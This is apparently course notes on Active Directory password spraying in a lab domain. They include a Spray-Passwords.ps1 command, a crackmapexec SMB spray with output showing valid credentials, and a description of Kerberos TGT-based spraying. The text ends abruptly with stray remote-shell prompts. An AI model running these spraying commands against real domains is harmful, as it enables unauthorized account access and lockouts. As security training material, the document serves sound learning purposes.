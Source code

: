 We can test an AD user login, using [this PowerShell script](#file-login-ps1):
- If the password for the user account is correct, the object creation will be successful.
    ```
    distinguishedName : {DC=corp,DC=com}
    Path              : LDAP://DC01.corp.com/DC=corp,DC=com
    ```
- If the password is invalid, no object will be created and we will receive an exception.
    ```
    format-default : The following exception occurred while retrieving member "distinguishedName": "The user name or password is incorrect.
    "
      + CategoryInfo          : NotSpecified: (:) [format-default], ExtendedTypeSystemExce
      + FullyQualifiedErrorId : CatchFromBaseGetMember,Microsoft.PowerShell.Commands.Forma
    ```
An existing implementation of this attack called [**Spray-Passwords.ps1**](https://web.archive.org/web/20220225190046/https://github.com/ZilentJack/Spray-Passwords/blob/master/Spray-Passwords.ps1) is located in the **C:\Tools\active_directory** folder of the Windows 10 client.

The **-Pass** option allows us to set a single password to test, or we can submit a wordlist file with **-File**. We can also test admin accounts with the addition of the **-Admin** flag.
```powershell
PS C:\Tools\active_directory> .\Spray-Passwords.ps1 -Pass Qwerty09! -Admin
```
#### CrackMapExec
The second kind of password spraying attack against AD users leverages SMB. This is one of the traditional approaches of password attacks in AD and comes with some drawbacks. For example, for every authentication attempt, a full SMB connection has to be set up and then terminated. As a result, this kind of password attack is very noisy due to the generated network traffic. It is also quite slow in comparison to other techniques.

```bash
kali@kali:~$ crackmapexec smb 192.168.50.75 -u users.txt -p 'Nexus123!' -d corp.com --continue-on-success
SMB         192.168.50.75   445    CLIENT75         [*] Windows 10.0 Build 22000 x64 (name:CLIENT75) (domain:corp.com) (signing:False) (SMBv1:False)
SMB         192.168.50.75   445    CLIENT75         [-] corp.com\dave:Nexus123! STATUS_LOGON_FAILURE 
SMB         192.168.50.75   445    CLIENT75         [+] corp.com\jen:Nexus123!
SMB         192.168.50.75   445    CLIENT75         [+] corp.com\pete:Nexus123!
```

> **Note**:
> Crackmapexec doesn't examine the password policy of the domain before starting the password spraying. As a result, we should be cautious about locking out user accounts with this method.

As a bonus, however, the output of crackmapexec not only displays if credentials are valid, but also if the user with the identified credentials has administrative privileges on the target system ( Adding *Pwn3d!* to the output).

#### Kerbrute
The third kind of password spraying attack is based on obtaining a TGT. For example, using [kinit](https://web.mit.edu/kerberos/krb5-1.12/doc/user/user_commands/kinit.html) on a Linux system, we can obtain and cache a Kerberos TGT. We'll need to provide a username and password to do this. If the credentials are valid, we'll obtain a TGT. The advantage of this technique is that it only uses two UDP frames to determine whether the password is valid, as it sends only an AS-REQ and examines the response.


[192.168.50.73]: PS C:\Users\jen\Documents> whoami
[192.168.50.73]: PS C:\Users\jen\Documents> hostname